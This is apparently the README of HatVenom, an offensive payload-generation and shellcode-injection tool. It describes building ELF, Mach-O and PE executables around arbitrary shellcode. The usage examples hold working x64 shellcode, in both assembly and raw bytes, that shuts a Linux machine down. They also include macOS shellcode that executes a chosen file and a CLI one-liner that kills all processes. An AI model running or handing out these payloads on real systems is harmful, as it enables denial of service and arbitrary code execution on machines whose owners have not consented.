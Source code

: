 # HatVenom

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/HatVenom?color=yellow">
    </a>
</p>

HatVenom is a HatSploit native powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatVenom
```

## Supported targets

| Format    | **x86** | **x64** | **armle** | **armbe** | **aarch64** | **mipsle** | **mipsbe** | **mips64le** | **mips64be** |
|-----------|---------|---------|-----------|-----------|-------------|------------|------------|--------------|--------------|
| **elf**   | yes | yes | yes | no | yes | yes | yes | no | no |
| **macho** | no | yes | no | no | no | no | no | no | no |
| **pe**    | yes | yes | no | no | no | no | no | no | no |

## Basic functions

There are all HatVenom basic functions that can be used to generate payload, covert data, assemble code or inject shellcode.

* `assemble(code, arch)` - Generate byte code for specified target from specified code.
* `generate(file_format, arch, shellcode, offsets={})` - Generates payload for specified target and with specified shellcode.
* `generate_to(file_format, arch, shellcode, offsets={}, filename='a.out')` - Generates payload for specified target and with specified shellcode and saves it to the specified file.

## Assembling code

It's very easy to assemble code for various targets in HatVenom. Let's assemble a simple code that calls shutdown for Linux.

```python
from hatvenom import HatVenom

code = (
    "xor rax, rax;"
    "xor rdx, rdx;"
    "push rax;"
    "push 0x77;"
    "push 0x6f6e;"
    "mov rbx, rsp;"
    "push rax;"
    "push 0x682d;"
    "mov rcx, rsp;"
    "push rax;"
    "movabs r8, 0x2f2f2f6e6962732f;"
    "movabs r10, 0x6e776f6474756873;"
    "push r10;"
    "push r8;"
    "mov rdi, rsp;"
    "push rdx;"
    "push rbx;"
    "push rcx;"
    "push rdi;"
    "mov rsi, rsp;"
    "add rax, 0x3b;"
    "syscall"
)

hatvenom = HatVenom()
shellcode = hatvenom.assemble(code, 'x64')
```

## Generating payload

It's very easy to generate payload for various targets in HatVenom. Let's generate a simple payload that calls shutdown for Linux and save it to `a.out`.

### Examples

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Payload offsets

Payload offsets is a variables used to add something to a shelcode on the preprocessing stage. Offsets looks like this:

```shell
\x90\x90\x90\x90:message:string:\x90\x90\x90\x90
```

Where `message` is an offset name and `string` is an offset type. So the basic usage of the offset looks like:

```shell
[shellcode]:[name]:[type]:[shellcode]
```

There are some possible offsets types:

* `string` - Plain text that will be converted to bytes on the preprocessing stage.
* `ip` - IP address that will be converted to bytes on the preprocessing stage.
* `port` - Numeric port that will be converted to bytes on the preprocessing stage.

So if you want to replace offset with bytes instead of `string`, `ip` and `port`, you can use this type:

```shell
[shellcode]:[name]:[shellcode]
```

### Examples

Let's generate a simple payload that executes provided through `file` offset file for macOS and save it to `a.out`.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":file:string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'file':'//bin/ps'})
```

## HatVenom CLI

HatVenom also has their own command line interface that can be invoked by executing `hatvenom` command:

```
usage: hatvenom [-h] [-f FORMAT] [-a ARCH] [-s SHELLCODE] [--offsets OFFSETS]
                [-o OUTPUT]

HatVenom is a HatSploit native powerful payload generation and shellcode
injection tool that provides support for common platforms and architectures.

optional arguments:
  -h, --help            show this help message and exit
  -f FORMAT, --format FORMAT
                        Platform to generate for.
  -a ARCH, --arch ARCH  Architecture to generate for.
  -s SHELLCODE, --shellcode SHELLCODE
                        Shellcode to inject.
  --offsets OFFSETS     Shellcode offsets.
  -o OUTPUT, --output OUTPUT
                        File to output generated payload.
```

### Examples

Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

```shell
hatvenom --format elf --arch x64 --shellcode "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
```

**NOTE:** If you want to use offsets in the CLI version of HatVenom, then you should use `--offsets one=1,two=2`
